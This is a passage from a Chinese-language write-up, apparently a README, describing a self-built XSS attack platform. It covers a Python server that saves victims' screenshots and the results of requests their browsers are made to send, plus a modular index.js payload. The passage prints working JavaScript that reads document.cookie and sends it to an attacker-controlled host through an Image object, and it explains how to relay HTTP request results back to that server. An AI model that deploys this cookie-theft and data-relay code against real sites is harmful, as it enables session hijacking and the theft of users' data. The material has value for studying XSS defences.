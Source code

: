 ```
            print("    Save as: " + savePath)
            file = open(savePath,'wb')
            file.write(responseData.encode())
            file.close()
        else:
            print(req_datas.decode())
```

以上代码会对POST包统一回复文本内容`Success`，状态码为200

对POST请求的地址进行判断，分别对应以下三个功能：

#### (1)保存用户屏幕截图

请求地址为`/screen`

从POST请求的参数中提取图像数据，作Base64解码后保存

#### (2)控制用户向指定地址发送http数据包，保存返回结果

请求地址为`/data`

从POST请求的参数中提取数据并保存

#### (3)默认功能

命令行输出POST请求的参数

**注：**

以上三个功能在提取数据内容时，需要使用`urllib.parse.unquote()`进行解码

### 3.功能模块化，便于二次开发

默认XSS平台的访问地址为：`https://<xss platform url>/index.js`

创建HTTPS服务器后，只需要编辑Python脚本同级目录下的index.js即可

这里介绍以下两个js脚本实现的功能：

#### (1)获取用户Cookie

读取用户Cookie可使用`document.cookie`

在回传Cookie数据时，为了避免跨域问题，可使用Image对象，示例代码如下：

```
var serverUrl = "https://<xss platform ip>/cookie";//change this
var newimg = new Image();   
newimg.src=serverUrl+"?cookie="+escape(document.cookie);
```

使用Image对象，只能发送GET请求，无法获得响应内容，只能通过onerror和onload事件判断是否响应

#### (2)通过js发送HTTP请求

HTTP请求支持GET和POST，还需要区分同步和异步方法

对于同步方法，调用一旦开始，调用者必须等到方法调用返回后才能继续后续的行为。为了将请求结果回传至服务器，可以通过return获得数据包的返回结果后再进行回传

